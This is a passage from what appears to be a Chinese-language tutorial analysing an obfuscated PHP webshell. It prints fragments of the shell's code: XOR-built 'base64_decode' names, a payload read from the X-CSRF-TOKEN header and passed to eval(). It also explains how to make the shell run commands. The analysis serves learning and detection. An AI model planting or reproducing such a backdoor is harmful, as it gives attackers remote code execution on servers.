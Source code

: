 ```php
            eval(null.$e."");
        }
    }
    @new E(set_token($v, $_SESSION['token']));
}
```

这个 WebShell 要如何执行命令呢？共需要三步，请看我细细分析~

首先，这个函数定义了一个函数 `set_token()` 和一个类 `class E`，但我们不着急看，我们先看 PHP 先执行的部分：

```php
if (isset($_SERVER["HTTP_TOKEN"])) {
    $t=substr(md5(rand()),16);
    $_SESSION['token']=$t;
    header('Token:'.$_SESSION['token']);
} else {
    if(!isset($_SESSION['token'])) {
        return;
    }
    $v=$_SERVER['HTTP_X_CSRF_TOKEN'];
    $b='DQHNGW'^'&0;+qc';
    $b.= '_dec'.chr(111).'de';
    $v=$b($v."");
}
```

由 1.6 讲到的知识点，结合 PHP 代码可得：

> if (!isset($\_SESSION\['token'\])) 这行代码首先检查当前会话（session）中是否存在名为 "token" 的变量。  
> $\_SESSION 是用于在 PHP 中存储会话数据的关联数组，通常用于在不同页面之间共享数据。isset 函数用于检查变量是否已经被设置，如果变量存在并且有值，返回 true，否则返回 false。

所以根据知识点，我们要先给服务器发一个 `Token` 值，这样就可以进入 IF，服务器就会生成一个随机的令牌（token）并将其存储在会话（session）中，并通过 HTTP 头部返回给客户端

但 `Token` 只需要获取一次就行了，因为服务器生成并返还令牌（token）后，会存在会话（session）中，简单理解就是服务器的内存当中，后续的使用就不要添加`Token` 值了  
**【因为如果再获取，令牌（token）又会重新生成，就无法进入 else 的后续步骤，这一步可能有点绕，不明白的师傅不妨上手实践一下哈哈】**

```php
$v=$_SERVER['HTTP_X_CSRF_TOKEN'];
$b='DQHNGW'^'&0;+qc';
$b.= '_dec'.chr(111).'de';
$v=$b($v."");
```

由 8.1 讲到的异或和 0.1 讲到的拼接赋值，以上代码可转化为：

```php
$v = $_SERVER['HTTP_X_CSRF_TOKEN'];
$b = "base64_decode";
$v = $b($v."");
```

意思就是，从 HTTP 请求头获取名为 "HTTP\_X\_CSRF\_TOKEN" 的值，并进行 Base64 解密再讲值重新赋给 `$v`

接下来我们再来看类 `class E` :

```php
class E {
        public function __construct($p) {
            $c=('ZSLQWR'^'82?4af')."_d"."eco".chr(108-8)."e";
            $e = $c($p);
            eval(null.$e."");
        }
    }
```

